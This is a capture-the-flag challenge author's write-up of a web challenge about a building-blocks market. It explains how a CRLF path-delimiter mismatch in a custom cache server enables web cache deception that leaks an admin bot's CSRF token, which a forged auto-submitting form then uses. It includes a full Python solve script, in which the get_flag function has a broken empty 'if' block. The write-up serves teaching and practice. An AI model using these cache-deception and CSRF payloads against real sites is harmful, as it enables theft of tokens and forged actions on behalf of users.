








This is my third time being an author and organizer for UMassCTF. I decided to create a web challenge simulating a market where users can upload their building blocks (to avoid using lego branding) for sale. However, they need to first get the "admin" to approve their requests for before they can be listed. The attack chain I created was to perform a web cache deception via CRLF path delimiters to obtain the CSRF token of the admin bot, and then use CSRF to get the admin bot to approve a listing request to get the flag.

## Description

I have this ultra rare Star Wars set that I want to sell, but the admin of the site thinks it's fake! Can you help me figure out a way?

## Challenge Setup

The setup includes an app backend (Flask), an admin backend (Flask), an admin bot (JavaScript), and a cache server (Python). The intended functionality is after registering a user and logging in, the user can submit a listing and then submit a request with a url which then the admin bot will visit.
## The Flag



Examining the backend source code, the goal is to get a public listing. Tracing back, the only way to get it approved is via the api endpoint `/approval/approve/submission_id`. However, it validates the username to be "admin" and have the correct CSRF token. The CSRF token is derived from the username and a secret key unknown to us.




## The Admin Bot

Firstly, let's see what the admin bot does. It simply logs in as admin and visits whatever url we give to it. Even though there's CORS, but SameSite cookies restrictions are disabled, which means cookies are allowed to be sent with cross-site requests. This means we can do a CSRF attack! However, as we saw earlier there's a CSRF token, so we first need to leak it somehow.





## The Cache Server

Interestingly, the challenge has a custom cache server, let's see what cache rules it uses. Seems like it's caching based on these extensions: `.css, .js, .png...`



Let's keep looking at how it sends a request to the backend. There seems to be mismatch between how it caches files and what it actually sends to the backend! The cache server splits the url path and strips any `%0d%0a` sequences before sending to the backend. But
The cache key is `self.path`, which is the raw path including `%0d%0a` sequences.



## Web Cache Deception via CRLF Path Delimiters

Is there a possibility we can do a web cache deception attack here? A web cache deception attack is a vulnerability where an attacker tricks a web cache into storing sensitive, private user content by manipulating URLs to look like static files, like `.css` files. So in this case, if we if we request `/admin/submissions.html%0d%0arandom.css`, the cache server will first see that it ends with `.css` and cache the path. Then it strips `%0d%0a` and makes a request to the backend with `/admin/submissions.html`. So the response of`submissions.html` would get cached the next time we request it.

The last piece I've included was that everything not in the static folder has `Cache-Control: no-store, no-cache, must-revalidate`, and the cache server checks that. The initial idea I had before was using CRLF injection to overwrite the header, but I've decided to not do it as we can see the admin Flask app explicitly sets `Cache-Control: public` on its response:



## Putting it All Together

So now let's chain everything together:
1. Register a user and login
2. Create a listing
3. Trigger the cache store by submitting the crafted url to the admin bot (have to use the docker internal name `cache_proxy:5555` so that the bot container can reach the cache proxy container)
4. Request the the "same" url (but this time use the public domain so that we can reach it) to and obtain the CSRF token from the cached response
5. Craft a CSRF payload to have the admin bot approve a listing request and serve it
6. Submit the url to the CSRF payload to the admin bot
7. Visit `/flag` and obtain the flag

## Final Solve Script

```python
import socket, threading, time, subprocess, requests
from http.server import HTTPServer, BaseHTTPRequestHandler

USERNAME = "testuser"
PASSWORD = "testpassword"
URL = "http://dbcf9fd2-2e51-4646-afa0-b6a78d304351.buildingblocksmarket.web.ctf.umasscybersec.org/"
SUBMISSION_URL = "http://cache_proxy:5555/admin/submissions.html%0d%0arandom.css"
EXPLOIT_URL = "http://dbcf9fd2-2e51-4646-afa0-b6a78d304351.buildingblocksmarket.web.ctf.umasscybersec.org/admin/submissions.html%0d%0arandom.css"

CSRF_URL = "http://localhost/payload.html" # replace with your server reachable from the public internet

FLAG_ENDPOINT = "http://dbcf9fd2-2e51-4646-afa0-b6a78d304351.buildingblocksmarket.web.ctf.umasscybersec.org/flag"

def register_and_login(url, username, password):
	session = requests.Session()
	register_response = session.post(f"{url}/register", data={
		"username": username,
		"password": password
	})

	if register_response.status_code != 200:
		return ""
	
	login_response = session.post(f"{url}/login", data={
		"username": username,
		"password": password
	})
	
	if login_response.status_code != 200:
		return ""
	
	return session.cookies.get("session")


def create_listing(session_cookie):
	requests.post(f"{URL}/sell", data={
		"name": "test",
		"description": "test",
		"price": "9.99",
		"image_url": "http://example.com/image.jpg"
	}, cookies={"session": session_cookie})

  

def trigger_cache(session_cookie, url):
	requests.post(f"{URL}/approval/request", data={
		"submission_url": url
	}, cookies={"session": session_cookie})
	
	time.sleep(5)

def get_csrf_token():
	command = ["curl", EXPLOIT_URL]
	
	result = subprocess.run(command, capture_output=True, text=True)
	
	token = result.stdout.split('name="csrf_token" value="')[1].split('"')[0]
	
	return token

def get_flag(session_cookie):
	response = requests.get(FLAG_ENDPOINT, cookies={"session": session_cookie})
	
	if response.status_code == 200:
	
	return response.text

httpd = None
csrf_token = None

class InjectionHandler(BaseHTTPRequestHandler):

	def do_GET(self):
		self.send_response(200)
		
		self.send_header("Content-type", "text/html")
		
		self.end_headers()
		html_template = f"""
		
		<html>
		
		<body>
		
		<form method="post" action="http://cache_proxy:5555/approval/approve/1">
		
		<input type="hidden" name="csrf_token" value="{csrf_token}">
		
		</form>
		
		<script>
		
		document.forms[0].submit();
		
		</script>
		
		</body>
		
		</html>
		
		"""
		
		self.wfile.write(bytes(html_template, "utf-8"))

def run_server():
	global httpd
	
	server_address = ('0.0.0.0', 8000)
	
	httpd = HTTPServer(server_address, InjectionHandler)
	
	httpd.socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
	
	httpd.serve_forever()

  
  

session_cookie = register_and_login(URL, USERNAME, PASSWORD)

print(f"Session cookie: {session_cookie}")

create_listing(session_cookie)

trigger_cache(session_cookie, SUBMISSION_URL)

print("Getting CSRF token...")

csrf_token = get_csrf_token()

print(f"CSRF token: {csrf_token}")

print("[+] Starting server in background at http://0.0.0.0:8000")

daemon_server = threading.Thread(target=run_server, daemon=True)

daemon_server.start()

time.sleep(1)

print("[+] Server is live. Triggering cache and getting flag...")

trigger_cache(session_cookie, CSRF_URL)

print(get_flag(session_cookie))

  

if httpd:
	httpd.shutdown()
	httpd.server_close()
```
